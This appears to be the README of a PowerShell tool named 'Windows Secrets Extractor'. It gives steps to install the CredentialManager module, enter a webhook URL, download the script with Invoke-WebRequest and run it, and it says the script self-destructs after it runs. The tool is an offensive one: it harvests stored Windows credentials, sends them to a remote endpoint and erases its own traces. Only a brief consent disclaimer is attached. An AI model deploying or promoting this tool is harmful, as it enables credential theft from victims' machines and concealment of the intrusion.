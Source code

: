 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script :

```
Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```cd $env:USERPROFILE;.\extractor.ps1```

Note: the script self-destructs after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
